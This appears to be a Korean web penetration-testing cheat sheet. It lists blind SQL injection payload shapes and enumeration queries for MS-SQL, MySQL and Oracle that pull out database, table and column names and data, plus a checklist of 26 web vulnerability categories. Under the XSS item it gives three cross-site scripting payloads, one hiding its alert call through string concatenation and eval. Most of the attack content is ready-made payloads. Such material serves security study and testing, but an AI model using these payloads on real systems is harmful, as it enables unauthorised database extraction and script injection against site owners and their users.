 <h2>[MS-SQL]</h2> <br>
# Shape <br>
select * from board where Title='//' and substring((query), 1, 1) < 'a'--<br>
???' and substring((query), 1, 1) < 'a'--<br>
<br>
# get DB NAME <br>
db_name() <br>
<br>
# Get Table name <br>
select top 1 name from sysobjects where xtype='U' <br>
<br>
# Get Column name <br>
select top 1 column_name from information_schema.columns where table_name = '[Table Name]' <br>
<br>
# Get Data <br>
select top 1 [Column Name] from [Table Name] <br>
<br>
<br>
<br>
<h2>[MySQL]</h2> <br>
# Shape <br>
???' and ascii(substring((query), 1, 1)) > 'a'# <br>
<br>
# Get Table Name <br>
select table_name from information_schema.tables where table_type='base table' limit 0,1 <br>
                                                                                     ㄴ> 0번 째 테이블 <br>
<br>
<br>
<br>
<h2>[Oracle]</h2> <br>
#Shape <br>
and (ascii(SUBSTR(select username from all_users where rownum = 1),1,1))) > 1<br>
<br>
#Get DB name <br>
select DISTINCT owner FROM all_tables;<br>
<br>
#Get Table name <br>
select table_name from all_tables;<br>
<br>
#Get Column name <br>
select column_name from all_tab_columns where table_name='[table name]';<br>

-----------------------------------------------------------------------------------
Row 갯수 파악

Limit 기능
select * from (select rownum rnum, users.* from users) A where A.rnum between 1 and 3

-----------------------------------------------------------------------------------
1. 관리자페이지 접근통제 및 계정관리
2. 사용자 접근통제 및 로그관리
3. 사용자 비밀번호 관리
4. 비인가 페이지 접근
5. 파라미터 변조 취약점
6. 암호화
7. 소스코드 속
8. 검색엔진 robot
9. HTTP Method
10. Direcory Listing
11. 취약한 세션 및 쿠키 인증
12. Buffer Overflow
13. Format String
14. 시스템 명령어 실행 취약점
15. 파일 다운로드 
16. 파일 업로드
17. 파일 Include
18. 악성 스크립트 XSS, CSRF<br>
`<img src="#" onmouseover="alert(1);">`<br>
`<img src="#" onerror="alert(1);">`<br>
`<img onclick='var a="aler"+"t(al"+"ert"+"(1));";eval(a);'>`<br>
19. 악성 콘텐츠 html
20. 웹페이지 오류정보 처리
21. 웹서버 백업파일 관리
22. 취약한 게시판 프로그램, 웹어플리케이션
23. SQL Injection
24. SSI Injection
25. XML 취약점
26. LDAP Injection
